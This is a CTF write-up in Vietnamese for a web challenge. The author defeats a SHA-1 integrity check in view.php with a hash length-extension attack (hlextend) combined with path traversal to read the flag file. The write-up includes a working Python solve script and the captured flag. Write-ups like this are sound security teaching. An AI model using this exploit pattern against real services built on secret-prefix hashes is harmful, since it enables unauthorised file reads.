




start chall lên rồi click vào hình 1 con chó bất kì, nó sẽ redirect chúng ta tới



để ý url nhé ae
để rõ hơn mình view source code

`index.php` không có gì đặc biệt đâu ae


thằng `view.php` này mới đểu nè


điều mình cần là trên remote cái chuỗi ban đầu trước $pic là gì, sau một hồi fuzz không có kết quả khả quan mình quay ra research sha1 exploit và tìm được cái [này](https://log.kv.io/post/2011/03/04/exploiting-sha-1-signed-messages)

sau đó research thêm về `hlextend` mình tìm thêm được repo [này](https://github.com/stephenbradshaw/hlextend)

script lấy flag:

```
import requests
import hlextend
import subprocess
import hashlib


BASE_URL = "http://chal.competitivecyber.club:7777"
# BASE_URL="http://localhost:5040"


def check_stx():
    for length in range(1,100):
        print("[+] length",length)
        sha = hlextend.new('sha1')
        append=b"/./../../../../../flag"
        file=b"2.png"
        out_msg=sha.extend(append,file,length,"6e52c023e823622a86e124824efbce29d78b2e73")
        print(out_msg)
        hash=sha.hexdigest()

        resp = requests.get(BASE_URL + "/view.php", params={"pic":out_msg , "hash": hash})
        if "BAD.gif" not in resp.text:
            print(resp.text)
            exit(0)

check_stx()

```

Flag: `pctf{3xt3nd_my_th4nk5_e9b5f6aa07}`


